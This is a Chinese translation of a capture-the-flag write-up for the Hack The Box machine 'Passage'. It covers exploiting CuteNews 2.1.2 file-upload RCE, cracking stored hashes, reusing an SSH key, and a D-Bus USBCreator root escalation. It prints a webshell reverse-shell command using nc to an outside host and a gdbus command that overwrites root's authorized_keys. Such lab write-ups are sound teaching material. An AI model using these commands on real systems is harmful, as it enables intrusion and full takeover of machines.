# HTB 文章

> 原文：<https://infosecwriteups.com/htb-passage-writeup-172490d4045e?source=collection_archive---------0----------------------->

## 无限制文件上传| RCE |弱密码| d-bus 漏洞

## 列举

Nmap TCP 扫描输出



## 据点

**************端口 80 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

IP 在端口 80 上运行，并有一个网页。在主页面的底部，写着 powered by **CuteNews - PHP 新闻管理系统。**



在网址上输入‘cute news’，你会看到它的登录门户页面。



注意 CuteNews 版本 2.1.2，搜索[漏洞利用](https://www.exploit-db.com/exploits/48458)！

CuteNews 2.1.2 易受“阿凡达”远程代码执行的攻击

## 反向外壳



`10.10.10.206/CuteNews/uploads/avatar_komz_avatar.php?cmd=nc 10.10.14.16 1234 -e “/bin/sh”`



在主目录下找到两个用户:nadav 和 paul。



## 横向运动

在一些枚举之后，我发现一些哈希字符串是 base64 编码的。解码得到了我的散列码。

`locate user`



这里，users.txt 是空的。然而，在/users 文件夹中有几个 php 文件，在这些文件中可以找到 base64 哈希。

`cat *`一起检查这些 php 文件中的所有内容。



最后，在反复尝试破解密码后，一个散列泄露了 paul 的敏感数据，包括密码散列。



破解密码…



**成功了！！！**

# 通道根

## **权限提升**

注意下面保罗和纳达夫共享同一个 RSA 公钥；这意味着保罗的私人密钥可以用来登录为纳达夫。



*确保复制的私钥的权限设置为‘600’*

*确保/etc/hosts 中包含“passage 或 passage.htb”以解析主机名。*



运行`id`我们可以看到，与保罗不同，纳达夫属于 **sudo** 组。



接下来，搜索我们可以作为根权限执行的 **suid** 文件。

`find / -perm -u=s -type f 2>/dev/null`

在这里寻找最薄弱的环节。



研究技术在这里起着非常关键的作用，否则你将会为一个非常具体的目标的正确利用而筋疲力尽。

搜索 **dbus-1.0 权限提升**，你会发现一种可以利用的技术。



从针对 [d-bus 漏洞](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)的文章中，要求您修改命令，以便将 authorized_keys 文件中 nadav 的公共 rsa 密钥保存到 root 的 authorized _ keys 中以便登录。

`gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true`

